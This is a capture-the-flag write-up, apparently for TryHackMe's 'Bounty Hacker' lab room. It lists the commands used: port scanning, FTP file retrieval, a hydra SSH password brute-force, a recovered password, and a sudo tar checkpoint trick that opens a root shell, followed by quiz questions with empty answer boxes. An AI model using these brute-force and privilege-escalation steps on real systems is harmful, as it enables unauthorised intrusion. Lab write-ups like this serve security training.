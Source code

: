 ![Bounty Hacker](https://i.imgur.com/rCDF5u6.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/cowboyhacker/Bounty_Hacker_Cover.png" alt="Bounty Hacker Logo">
</p>

# Bounty Hacker

This guide contains the answer and steps necessary to get to them for the [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) room.

### Living up to the title.

Commands:

nmap -sV 10.10.216.171 
ftp 10.10.216.171
get task.txt
cat task.txt
get locks.txt
cat locks.txt
hydra -l user -P locks.txt ssh://10.10.216.171:22 -t 4  
hydra -l lin -P locks.txt ssh://10.10.216.171:22 -t 4
ssh lin@10.10.216.171 
cat user.txt
susudo

RedDr4gonSynd1cat3

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names


   
3. Who wrote the task list? 
   
   
   
   ><details><summary>Click for answer</summary></details>

4. What service can you bruteforce with the text file found?
   
   
   
   ><details><summary>Click for answer</summary></details>

5. What is the users password? 
   
   
   
   ><details><summary>Click for answer</summary></details>

6. user.txt

   
   
   ><details><summary>Click for answer</summary></details>
   
7. root.txt

   
   
   ><details><summary>Click for answer</summary></details>
